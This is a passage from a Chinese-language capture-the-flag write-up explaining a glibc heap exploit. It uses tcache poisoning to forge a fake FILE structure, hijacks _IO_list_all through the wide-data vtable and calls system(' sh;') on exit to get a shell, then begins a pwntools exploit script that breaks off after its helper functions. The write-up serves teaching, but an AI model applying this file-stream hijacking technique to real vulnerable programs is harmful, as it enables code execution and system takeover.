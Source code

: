 ```python
# heap_base + 0x2d0 is the chunk_0x80(content), heap_base + 0x2c0 is the chunk_0x40(content)
add(1, b"a"*0x10 + p64(0) + p64(0x71) + p64((heap_base + 0x2d0 + 0x70) ^ (heap_base >> 12)))
free()
```

然后，我们申请出刚才修改的这个堆块，在其中填入 IOFILE 结构体，顺便设置 fake chunk 的 fd 指针到 `_IO_list_all`。

```python
add(2, flat({
    0x00+0x10: b"  sh;", # fake FILE struct starts at heap_base + 0x2e0
    0x28+0x10: system,
    0x58+0x10: 0x71,
    0x60+0x10: _IO_list_all ^ (heap_base >> 12),
}, filler=b'\0'))
free()
```

接着我们申请出来的就是 0x70 偏移处的 fake chunk 了，可以在其中继续伪造 IOFILE 结构体。（注意我把 unused 的部分用来存放 widedata 的 vtable 指针）

```python
add(2, flat({ # starts from heap_base + 0x2e0 + 0x60
    wide_data_off-0x60: heap_base+0x2e0 + 0xd0 - wide_data_vtable_off,
    0xd0-0x60:          heap_base+0x2e0 + 0x28 - do_alloc_off, # `unused` in IOFILE
    vtable_off-0x60:    _IO_wfile_overflow_ptr - __overflow_off,
}, filler=b"\x00"))
free()
```

最后，我们把 `_IO_list_all` 申请出来并填上 fake IOFILE 结构体的地址，再触发程序退出，就可以拿到 shell。

```python
add(2, pack(heap_base+0x2e0))   # hijack _IO_list_all
sla(b'> ', b'4') # trigger exit -> ... -> _IO_flush_all_lockp ->_IO_overflow
```

## EXP 脚本

```python
#!/usr/bin/python3
from pwn import *
import sys
context.terminal = ['tmux', 'splitw', '-h']

# ---------------- Environment Config ---------------- #

#context.log_level = 'debug'
context.arch = 'amd64'
filename = "./pwn"

# ------------------- Exploitation ------------------- #

ru  = lambda a:     io.recvuntil(a)
r   = lambda:       io.recv()
sla = lambda a,b:   io.sendlineafter(a,b)
sa  = lambda a,b:   io.sendlineafter(a,b)
sl  = lambda a:     io.sendline(a)
s   = lambda a:     io.send(a)


def add(size, content):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"Size [1=small / 2=big]: ", str(size).encode())
    io.sendafter(b"Data: ", content)
 
def show():
    io.sendlineafter(b"> ", b"2")
 
```